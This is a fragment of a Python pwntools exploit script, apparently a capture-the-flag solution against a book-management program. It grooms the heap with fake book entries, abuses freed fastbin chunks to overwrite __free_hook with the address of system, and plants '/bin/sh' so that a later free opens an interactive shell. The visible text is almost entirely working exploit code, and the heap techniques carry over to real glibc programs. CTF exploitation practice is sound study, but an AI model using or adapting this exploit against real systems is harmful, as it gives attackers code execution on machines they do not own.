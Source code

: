 ```python
log.info(f"HEAP BASE: {hex(heapbase)}")
log.info(f"system: {hex(system)}")

# create_book(0,b'abcd',20,p64(libcbase+0x001b7b80)*5,0x28)
# edit_book(0,b'abcd',20,b'F'*0x58,0x58)
# create_invalid_book(1,b'lol',20,-1)
# print(leak(1))


for i in range(0,7):
    create_book(i,b'abcd',20,b'Q'*0x68,0x68)



create_book(7,b'fastbin1',20,p64(heapbase+0xc20)*8,0x28)
edit_book(7,b'fastbin1',20,b'L'*0x68,0x68)
create_invalid_book(13,b'abcd',20,-1)
# edit_book(8,b'abcd',20,b'Q',0x88)

create_book(9,b'fastbin2',20,b'V'*0x68,0x68)


for i in range(0,7):
    delete_book(i)

edit_book(13,b'abcd',20,b'/bin/sh\x00',0x88)

delete_book(9)
delete_book(7)

for i in range(0,10):
    create_book(i,b'abcd',20,p64(free_hook)*13,0x68)



create_book(12,b'abcd',20,p64(system)*13,0x68)

io.recvuntil(b'>')
io.sendline(b'2')
io.recvuntil(b'idx book:')
io.sendline(f"13".encode())
io.recvuntil(b'title:')
io.send(b'abcd')
io.recvuntil(b'num page:')
io.sendline(f"20".encode())
io.recvuntil(b'desc len:')
io.sendline(b'5')


io.interactive()
``` 